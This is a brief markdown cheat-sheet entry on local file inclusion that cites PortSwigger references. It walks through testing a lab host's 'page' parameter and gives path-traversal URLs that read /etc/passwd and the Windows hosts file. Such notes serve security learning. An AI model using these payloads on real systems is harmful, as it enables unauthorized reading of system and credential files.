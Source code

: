 # LFI
https://portswigger.net/web-security/file-path-traversal
https://portswigger.net/kb/issues/00100300_file-path-traversal
## Basic
```
# Take an example URL
http://unika.htb/index.php?page=french.html

# I suspect parameter page is vulnerable to LFI.
# Requesting below URL URL results ine error
http://unika.htb/index.php?page=/french.html
Error: Warning: include(/french.html): Failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 11

# I will try the following (Linux web server)
http://unika.htb/index.php?page=../../../etc/passwd
http://unika.htb/index.php?page=/etc/passwd

# On Windows web server
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
http://unika.htb/index.php?page=/windows/system32/drivers/etc/hosts
```
